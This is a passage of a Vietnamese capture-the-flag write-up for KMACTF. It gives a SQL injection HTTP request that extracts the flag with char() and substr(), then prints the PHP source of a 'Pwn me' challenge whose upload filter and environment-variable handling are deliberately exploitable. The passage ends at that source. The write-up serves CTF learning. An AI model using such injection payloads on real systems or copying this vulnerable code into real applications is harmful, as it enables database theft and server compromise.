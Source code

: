 Payload leak flag
```
GET /query?query=<@urlencode>(select char(0x4d,0x53,0x47,0x2d) || substr(flag,7) as msg from flag)<@/urlencode> HTTP/1.1
Host: 45.32.110.58:20103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```
+ Request trên mình có sử dụng thêm hàm `substr` để lấy flag vì nếu như không lấy từ kí tự thứ 7 trở đi thì kết quả trả về sẽ chứa format flag `KMACTF` (điều kiện thứ 2 của `where`)

Flag: `KMACTF{Just simple sql injection with some tricks}`

## Challenge Pwn me
Source code:
```php
<?php

if ( isset($_GET["source"]) ) {
    highlight_file(__FILE__);
    die();
}

// Process file upload
if (isset($_FILES["file"])) {    
    // Clean storage
    $files = count(glob( "uploads/*"));
    if ($files > 100) {
        system("rm uploads/*");
    }

    $fileExt = strtolower(pathinfo($_FILES["file"]["name"],PATHINFO_EXTENSION));
    
    if ( preg_match("/ph/i", $fileExt) )
        die("Don't cheat my fen");

    $fileName = md5(rand(1, 1000000000)).".".$fileExt;
    $target_file = "uploads/" . $fileName;
    
    if (move_uploaded_file($_FILES["file"]["tmp_name"], $target_file)) {
        die("Your file: ".getcwd()."/".$target_file);
    } else {
        die("Something went wrong\n");
    }

}
// Add enviroment variable
if (isset($_GET["env"])) {
    foreach ($_GET["env"] as $key => $value) {
        if ( preg_match("/[A-Za-z_]/i", $key) && !preg_match("/bash/i", $key) )
            putenv($key."=".$value);
    }
}

system("echo pwnme!!");

?>
```